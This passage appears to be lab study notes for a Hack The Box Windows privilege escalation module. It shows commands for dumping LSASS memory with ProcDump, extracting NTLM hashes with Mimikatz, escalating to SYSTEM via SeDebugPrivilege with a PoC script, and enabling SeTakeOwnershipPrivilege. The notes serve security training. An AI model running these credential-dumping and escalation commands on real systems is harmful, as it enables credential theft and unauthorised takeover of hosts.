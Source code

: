 #### ProcDump/Manual Method & Mimikatz

``` batch
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

Manual memory dump of the `LSASS` process via the Task Manager by browsing to the `Details` tab, choosing the `LSASS` process, and selecting `Create dump file`. After downloading this file back to our attack system, we can process it using Mimikatz the same way as the previous example.

``` batch
C:\htb> mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

From the above we gain the NTLM hash of the local administrator account logged on locally. We can use this to perform a pass-the-hash attack to move laterally if the same local administrator password is used on one or multiple additional systems (common in large organizations).

#### SeDebugPrivilege For RCE

First, transfer this [PoC script](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1) over to the target system. Next we just load the script and run it with the following syntax `[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")`. Note that we must add a third blank argument `""` at the end for the PoC to work properly.

> **Note**: The PoC script has received an update. Please visit its GitHub repository and review its usage. https://github.com/decoder-it/psgetsystem 
{: .prompt-info }


```powershell
PS C:\htb> tasklist 
```

- Find process running as SYSTEM and note down there PID such as `winlogon.exe` running under PID 612, which we know runs as SYSTEM on Windows hosts.

We could also use the [Get-Process](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-process?view=powershell-7.2) cmdlet to grab the PID of a well-known process that runs as SYSTEM (such as LSASS) and pass the PID directly to the script, cutting down on the number of steps required.

![image](https://academy.hackthebox.com/storage/modules/67/psgetsys_lsass.png)


### SeTakeOwnershipPrivilege

#### Enabling SeTakeOwnershipPrivilege

We can enable it using this [script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) which is detailed in [this](https://www.leeholmes.com/blog/2010/09/24/adjusting-token-privileges-in-powershell/) blog post, as well as [this](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77) one which builds on the initial concept.
